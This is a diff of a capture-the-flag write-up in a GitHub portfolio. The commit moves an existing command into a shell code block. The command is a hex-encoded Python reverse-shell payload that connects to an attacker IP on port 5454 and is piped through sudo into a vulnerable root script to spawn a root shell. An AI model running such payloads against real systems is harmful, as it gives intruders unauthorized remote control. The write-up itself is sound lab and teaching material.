

Before and after one commit to kUrOSH1R0oo/porfolfio, a Markdown page: writeup/orasi.md, the part around the change. GitHub-like rendering; grey boxes are pictures that could not be loaded.

````diff
--- a/writeup/orasi.md
+++ b/writeup/orasi.md
@@ -372,7 +372,9 @@ It appears that Python commands can be injected, as the input is being passed di
 
 My plan here is to execute a reverse shell payload. But before that, we'll set up a listener on our attacker machine. If everything works as intended, it should grant us a root shell.
 
-`python3 -c "print(b"import socket,os,pty;s=socket.socket();s.connect(('192.168.121.32',5454));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('sh')".hex())" | sudo python3 /root/oras.py`
+```shell
+python3 -c "print(b"import socket,os,pty;s=socket.socket();s.connect(('192.168.121.32',5454));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('sh')".hex())" | sudo python3 /root/oras.py
+```
 
 Execute and here's the result
 
````
